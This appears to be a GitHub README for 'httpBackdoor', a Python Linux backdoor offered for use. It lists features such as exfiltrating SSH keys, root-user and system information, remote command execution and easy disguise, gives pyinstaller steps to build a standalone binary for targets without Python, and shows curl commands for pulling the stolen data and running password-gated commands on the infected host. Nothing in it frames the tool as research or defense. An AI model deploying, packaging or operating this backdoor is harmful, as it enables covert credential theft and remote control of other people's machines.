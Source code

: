 # httpBackdoor
Linux backdoor written with the HTTPRequestHandler library.

# features
- exfiltrate system information (SSH keys, root users, sys info, etc.)
- command execution (returns the output too)
- can be easily disguised
- lightweight

# how to run on a machine without python being installed
- `pip3 install pyinstaller`
- `pyinstaller --onefile httpBackdoor.py`
- the file in the `dist` directory is your binary that will run on the machine

# usage
## basic data gathering
`curl --location --head 'IP:PORT' --header 'Content-Type: text/plain'`

## command execution
`curl --location --request POST 'IP:PORT' --header 'pwd: PASSWORD' --header 'Content-Type: text/plain' --data-raw 'COMMAND'`
